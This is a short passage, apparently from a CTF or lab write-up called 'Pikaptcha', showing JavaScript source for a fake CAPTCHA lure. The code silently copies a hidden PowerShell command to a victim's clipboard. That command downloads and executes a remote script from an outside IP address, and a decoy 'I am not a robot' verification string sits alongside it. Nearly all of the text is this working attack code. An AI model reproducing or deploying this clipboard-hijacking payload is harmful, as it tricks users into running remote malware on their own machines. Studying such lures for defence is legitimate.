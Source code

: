    ![alt text](../assets/imgs/pikaptcha/image-22.png)

   ```additonal
   function setClipboardCopyData(textToCopy){
      const tempTextArea = document.createElement("textarea");
      tempTextArea.value = textToCopy;
      document.body.append(tempTextArea);
      tempTextArea.select();
      document.execCommand("copy");
      document.body.removeChild(tempTextArea);
   }

   // Stage the string to be copied to the victims clipboard
   function stageClipboard(commandToRun, verification_id){

      // The string copied is the powershell command to download the malcious ps file.
      const revershell=`powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`
      const suffix = " # "
      const ploy = "... ''I am not a robot - reCAPTCHA Verification ID: "
      const end = "''"
      const textToCopy = revershell

      setClipboardCopyData(textToCopy);
   }
   ```


----
